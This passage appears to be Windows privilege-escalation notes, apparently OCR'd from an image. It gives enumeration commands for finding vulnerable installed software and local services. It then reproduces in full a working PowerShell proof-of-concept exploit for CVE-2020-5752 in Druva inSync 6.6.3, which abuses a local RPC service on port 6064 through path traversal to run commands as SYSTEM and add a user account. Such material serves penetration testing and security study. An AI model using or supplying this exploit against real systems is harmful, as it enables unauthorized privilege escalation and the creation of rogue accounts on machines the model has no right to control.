 #### Enumerating Installed Programs
```cmd.exe
wmic product get name
```
Google services that aren't typically standard on Windows systems and see if there are exploits available for that version.

*Example: Druva inSync. Escalation is possible by interacting with a service running locally on port 6064.*

#### Enumerating Local Ports
```cmd.exe
netstat -ano | findstr 6064
```

#### Enumerating Process ID
```PowerShell
get-process -Id 3324
```
Maps the process ID from port enumeration back to the running process

#### Enumerating Running Service
```PowerShell
get-service | ? {$_.DisplayName -like 'Druva*'}
```

#### Druva inSync PowerShell PoC
```PowerShell
# Exploit Title: Druva inSync Windows Client 6.6.3 - Local Privilege Escalation (PowerShell)
# Date: 2020-12-03
# Exploit Author: 1F98D
# Original Author: Matteo Malvica
# Vendor Homepage: druva.com
# Software Link: https://downloads.druva.com/downloads/inSync/Windows/6.6.3/inSync6.6.3r102156.msi
# Version: 6.6.3
# Tested on: Windows 10 (x64)
# CVE: CVE-2020-5752
# References: https://www.matteomalvica.com/blog/2020/05/21/lpe-path-traversal/
# Druva inSync exposes an RPC service which is vulnerable to a command injection attack.

$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
            
```
